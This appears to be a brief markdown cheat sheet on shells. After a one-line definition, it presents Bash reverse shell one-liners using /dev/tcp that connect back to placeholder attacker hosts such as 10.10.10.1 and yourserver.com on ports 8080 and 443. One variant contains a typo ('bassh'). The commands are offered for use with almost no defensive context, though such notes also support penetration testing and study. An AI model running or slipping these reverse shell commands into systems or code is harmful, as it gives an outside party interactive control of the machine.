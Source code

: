# Shells

>  A shell is software/protocol that provides an interface for an CLI to the underlying OS


### BASH

Bash as it stands, is a (the most popular) shell on its own, but can also provide some really neat tricks to allow for all kinds of shell related goodness, such as a reverse shell.

#### Bash reverse shell

* Spawn a reverse shell back to your server using /dev/tcp 
    > bash -i >& /dev/tcp/<yourserver>/8080 0>&1 - e.g  bash -i >& /dev/tcp/10.10.10.1/8080 0>&1
    > or bassh -c bash -i >& /dev/tcp/<yourserver>/8080 0>&1 or e.g $ bash -i >& /dev/tcp/yourserver.com/443 0>&1
